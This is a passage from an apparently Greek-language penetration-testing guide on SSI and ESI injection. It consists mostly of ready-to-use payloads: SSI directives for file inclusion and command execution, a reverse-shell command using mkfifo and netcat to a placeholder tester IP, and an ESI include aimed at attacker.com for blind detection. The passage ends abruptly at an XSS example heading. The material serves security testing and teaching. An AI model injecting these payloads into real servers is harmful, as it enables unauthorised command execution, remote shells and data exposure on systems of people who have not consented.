 Αυτές οι διαδικασίες θα σας βοηθήσουν να ελέγξετε την ευπάθεια μιας εφαρμογής σε επίθεση SSI ή ESI Injection. Είναι σημαντικό να είστε προσεκτικοί και να τηρείτε τους κανόνες ασφαλείας κατά την εκτέλεση αυτών των ελέγχων.
```javascript
// Document name
<!--#echo var="DOCUMENT_NAME" -->
// Date
<!--#echo var="DATE_LOCAL" -->

// File inclusion
<!--#include virtual="/index.html" -->
// Including files (same directory)
<!--#include file="file_to_include.html" -->
// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->
// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->
// Modification date of a file
<!--#flastmod file="index.html" -->

// Command exec
<!--#exec cmd="dir" -->
// Command exec
<!--#exec cmd="ls" -->
// Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

// Print all variables
<!--#printenv -->
// Setting variables
<!--#set var="name" value="Rich" -->

```
## Edge Side Inclusion

Υπάρχει ένα πρόβλημα με την **προσωρινή αποθήκευση πληροφοριών ή δυναμικών εφαρμογών** καθώς μέρος του περιεχομένου μπορεί να **μεταβληθεί** για την επόμενη φορά που θα ανακτηθεί το περιεχόμενο. Αυτό είναι αυτό που χρησιμοποιείται η **ESI**, για να υποδείξει χρησιμοποιώντας ετικέτες ESI το **δυναμικό περιεχόμενο που πρέπει να δημιουργηθεί** πριν αποσταλεί η αποθηκευμένη έκδοση.\
Εάν ένας **επιτιθέμενος** είναι σε θέση να **εισαγάγει μια ετικέτα ESI** μέσα στο περιεχόμενο της προσωρινής αποθήκευσης, τότε μπορεί να είναι σε θέση να **εισάγει αυθαίρετο περιεχόμενο** στο έγγραφο πριν αποσταλεί στους χρήστες.

### Ανίχνευση ESI

Ο παρακάτω **κεφαλίδα** σε μια απάντηση από τον διακομιστή σημαίνει ότι ο διακομιστής χρησιμοποιεί ESI:
```
Surrogate-Control: content="ESI/1.0"
```
Εάν δεν μπορείτε να βρείτε αυτήν την κεφαλίδα, ο διακομιστής **μπορεί να χρησιμοποιεί ESI ούτως ή άλλως**.\
Μια **τυφλή προσέγγιση εκμετάλλευσης μπορεί επίσης να χρησιμοποιηθεί** καθώς ένα αίτημα θα πρέπει να φτάσει στον διακομιστή του επιτιθέμενου:
```javascript
// Basic detection
hell<!--esi-->o
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
```